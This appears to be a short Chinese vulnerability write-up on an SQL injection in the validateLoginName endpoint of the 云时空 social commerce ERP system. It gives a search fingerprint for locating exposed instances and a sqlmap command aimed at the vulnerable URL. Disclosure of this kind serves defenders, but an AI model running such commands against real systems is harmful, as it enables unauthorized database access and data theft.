

# 云时空 社会化商业ERP系统 validateLoginName SQL注入漏洞

## 漏洞描述

云时空 社会化商业ERP系统存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
云时空 社会化商业ERP系统
```

## 网络测绘

```
title="云时空社会化商业ERP"
```

## 漏洞复现

登录页面


使用SQLmap验证漏洞

```
sqlmap -u "http://xxx.xxx.xxx.xxx/sys/user/validateLoginName?loginName=admin"
```

